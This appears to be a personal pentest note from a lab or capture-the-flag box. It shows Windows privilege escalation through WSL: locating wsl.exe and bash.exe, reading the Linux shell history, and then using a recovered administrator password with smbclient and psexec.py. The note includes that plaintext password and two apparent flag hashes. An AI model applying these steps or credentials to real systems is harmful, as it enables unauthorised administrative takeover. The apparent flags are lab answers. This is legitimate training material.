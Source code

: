 [[__.Links (WINDOWS)#Escalation Path Windows Subsystem for Linux]]

```powershell - target
Get-ChildItem HKCU:\Software\Microsoft\Windows\CurrentVersion\Lxss | %{Get-ItemProperty $_.PSPath} | out-string -width 4096
```

```batch - windows
where /R C:\windows bash.exe
```

```batch - windows
where /R C:\windows wsl.exe
```


![[Pasted image 20220203172255.png]]

```batch - windows
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe whoami
```

![[Pasted image 20220203172529.png]]

```batch - windows
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

```bash - wsl
uname -a
```

![[Pasted image 20220203172713.png]]

![[Python#Shell break]]

```bash - wsl
history
```

![[Pasted image 20220203173050.png]]

```bash - kali
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\$TARGET\\c$
```


![[3_Gaining Shell Access (psexec.py)#Shell with psexec py]]

```bash - kali
psexec.py 'administrator:u6!4ZwgwOM#^OBf#Nwnh'@$TARGET
```

![[Pasted image 20220203174023.png]]

d9dd3d43032cb8c6e71c523efe61948a

![[Pasted image 20220203174127.png]]

b91b707a6f74cec08c3d15b3784a5c9d